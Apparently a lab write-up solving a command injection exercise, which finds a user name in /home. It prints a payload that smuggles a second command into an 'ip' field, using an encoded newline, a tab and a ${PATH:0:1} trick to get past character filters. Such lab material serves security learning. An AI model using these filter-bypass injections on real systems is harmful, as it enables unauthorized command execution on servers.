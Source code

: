 ## Challenge

Use what you learned in this section to find name of the user in the '/home' folder. What user did you find? 

## Solution

By using the following command:

```sh
ip=127.0.0.1%0a%09ls%09${PATH:0:1}home${PATH:0:1}
```

We can list the files on the `home` directory, which means getting the name of the user `1nj3c70r`.

This command decoded is:

```sh
ip=127.0.0.1\n ls /home/
```